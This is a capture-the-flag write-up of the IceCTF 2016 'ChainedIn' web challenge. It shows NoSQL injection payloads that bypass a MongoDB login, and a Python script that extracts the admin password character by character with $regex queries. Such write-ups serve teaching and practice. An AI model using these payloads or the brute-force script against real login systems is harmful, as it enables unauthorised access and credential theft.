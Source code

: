 ```yaml
---
layout: post
title: IceCTF - ChainedIn [Web]
author: menztrual
tags: [ctf, icectf, web]
---
```


 * **Competition**: IceCTF 2016
 * **Challenge** Name: ChainedIn
 * **Type**: Web
 * **Points**: 75 pts
 * **URL**: http://chainedin.vuln.icec.tf/

<!--more-->

## Challenge Description:

> I keep getting so much spam from this website. Can you leak the admin password so I can put a stop this nonsense? I made an account for you to help you break in, the username is agent1568 and the password is agent1568


Starting the challenge off, we are greeted with a splash page with not a lot of content on it. On the bottom of the page we can see that the site is "Powered by MongoDB and AngularJS". Our response headers also show an important header: `X-Powered-By:Express`, indicating the challenge is using a [MEAN](http://mean.io/) stack.

Logging in as `agent1568`, we can't do anything apart from staring blankly at our username:



Repeating a login request in Burp, we can see 2 useful things:

 1. An incorrect login error message
 2. The request is sending JSON + content-type: `application/json header`


Testing if the login is vulnerable to [NoSQLi](https://www.owasp.org/index.php/Testing_for_NoSQL_injection), we can see we get logged in as Administrator:



So now that we've logged in as Administrator, we still don't have our flag. Re-reading the challenge description, we're asked to `leak the admin password`. Unfortunately, I'm not aware of any UNION like alternatives for NoSQL injections. However, because the password is being stored in plain text, we can utilize the messages coming back from the response in conjunction with `$regex` in our password to brute force the admin password.

By changing the password being sent in the JSON request one letter at a time and then checking the response back from the server, we can calculate the flag/admin password:

```
{"user":{"$gt":""},"pass":{"$regex":"^f"}}   -- Invalid Credentials
{"user":{"$gt":""},"pass":{"$regex":"^I"}}   -- Welcome back Administrator
{"user":{"$gt":""},"pass":{"$regex":"^Ic"}}  -- Welcome back Administrator
{"user":{"$gt":""},"pass":{"$regex":"^Ica"}} -- Invalid Credentials
{"user":{"$gt":""},"pass":{"$regex":"^Ice"}} -- Welcome back Administrator
```

As this would be a very long, repetitive manual process, I wrote the following python script to extract the flag:

```python
# IceCTF 2016 - ChainedIn Solution
# Author: menztrual - <https://thegoonies.rocks>

import requests
import json
import time

# Character map for valid characters in the flag name
charMap =  ['A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z',
            'a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z',
            '0','1','2','3','4','5','6','7','8','9','_','{','}']

url = "http://chainedin.vuln.icec.tf/login" # URL of challenge

finished = False # Set to true when we find the end `}`
flag = "" # Starting point for our flag
print "Finding flag..."

while (finished == False):
    for i in range(0,len(charMap)):
        char = charMap[i]
        header = {'Content-Type': "application/json"}
        payload = {"user":{"$gt": ""}, "pass": {"$regex": "^"+flag + char}}

        r = requests.post(url, data=json.dumps(payload), headers=header)
        if r.status_code == 502:
            # Bad server. Delay and try again.
            time.sleep(10)
            continue
        else
            result = json.loads(r.content)
            if result['message'] != 'Invalid Credentials':
                flag += char
                i = i + 1
                print flag

                if (char == "}"):
                    finished = True
                break

            if finished == True: break

print "Finished: "  + flag
```

Flag: `IceCTF{I_thOugHT_YOu_coulDNt_inJeCt_noSqL_tHanKs_monGo}`

